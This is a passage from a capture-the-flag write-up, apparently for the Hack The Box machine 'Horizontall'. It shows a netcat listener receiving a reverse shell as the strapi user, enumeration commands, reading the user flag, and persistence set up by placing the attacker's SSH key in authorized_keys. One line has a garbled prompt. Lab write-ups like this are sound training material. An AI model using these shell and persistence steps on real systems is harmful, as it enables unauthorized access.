 My netcat listener got the hit and I could get the first flag. 

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.103.221 54538
bash: cannot set terminal process group (1892): Inappropriate ioctl for device
bash: no job control in this shell

strapi@horizontall:~/myapi$ whoami
whoami
strapi

strapi@horizontall:~/myapi$ ls /home
ls /home
developer

strapi@horizontall:~/myapi$ ls /home/developer
ls /home/developer
composer-setup.php
myproject
user.txt

strapi@horizontall:~/myapi$ cat /home/developer/user.txt
cat /home/developer/user.txt
REDACTED
```


## Privilege Escalation

Once I was in the machine, I looked for ways to escalate my privileges. But first I wanted to get a better shell. I checked `/etc/passwd` and I saw that the `stapi` user could have a shell on the machine. So I copied my public key to their home directory.

```bash
strapi@horizontall:~$ mkdir .ssh
mkdir .ssh

strapi@horizontall:~$ cd .ssh
cd .ssh

strapi@horizontall:~/.ssh$ echo -n ssh-rsa PUBLIC_KEY > authorized_keys

ehogue@kalistrapi@horizontall:~/.ssh$ chmod 600 authorized_keys
chmod 600 authorized_keys

strapi@horizontall:~/.ssh$ cd ..
cd ..

strapi@horizontall:~$ chmod 700 .ssh
chmod 700 .ssh
```
